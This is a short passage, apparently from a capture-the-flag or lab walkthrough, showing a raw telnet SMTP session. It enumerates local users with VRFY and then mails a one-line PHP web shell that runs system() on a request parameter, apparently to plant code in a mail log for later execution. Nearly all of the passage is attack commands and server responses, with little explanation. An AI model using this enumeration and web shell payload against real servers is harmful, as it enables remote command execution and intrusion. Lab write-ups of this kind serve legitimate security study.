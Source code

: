 ```bash
VRFY asterisk@localhost
252 2.0.0 asterisk@localhost
VRFY fanis@localhost
252 2.0.0 fanis@localhost
mail from:test@hack.com   #send mail
250 2.1.0 Ok
rcpt to: asterisk@localhost
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Subject: check the mail.
<?php echo system($_REQUEST['cmd']); ?>
.
250 2.0.0 Ok: queued as 3C79BD92FE

500 5.5.2 Error: bad syntax
^]

telnet> quit
Connection closed.

```

![image-20220928005101978](./images/image-20220928005101978.png)
